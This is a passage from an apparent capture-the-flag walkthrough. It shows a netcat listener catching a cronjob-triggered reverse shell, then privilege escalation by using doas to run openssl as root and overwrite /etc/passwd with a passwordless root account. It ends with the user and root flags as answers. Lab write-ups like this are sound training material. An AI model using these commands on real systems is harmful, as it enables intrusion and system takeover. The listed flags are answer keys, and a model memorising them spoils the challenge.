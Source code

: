On my machine:

```bash
nc -lvnp 4444
```

After a minute, the cronjob triggered and I got a shell as `plot_admin`.

First flag:

```
77927510d5edacea1f9e86602f1fbadb
```

---

## Privilege Escalation with Doas

Checking for SUID:

```bash
find / -perm -4000 -type f -ls 2>/dev/null
```

Found:

```
/usr/bin/doas
```

Checked config:

```bash
cat /etc/doas.conf
```

```
permit nopass plot_admin as root cmd openssl
```

So I could run `openssl` as root. From GTFOBins:

```bash
LFILE=/etc/passwd
echo root::0:0:root:/root:/bin/bash | doas -u root openssl enc -out $LFILE
```

Then switched:

```bash
su
```

Got root shell.

Root flag:

```
53f85e2da3e874426fa059040a9bdcab
```

---

## Flags

> Q1: User flag
> A1: 77927510d5edacea1f9e86602f1fbadb

> Q2: Root flag
> A2: 53f85e2da3e874426fa059040a9bdcab
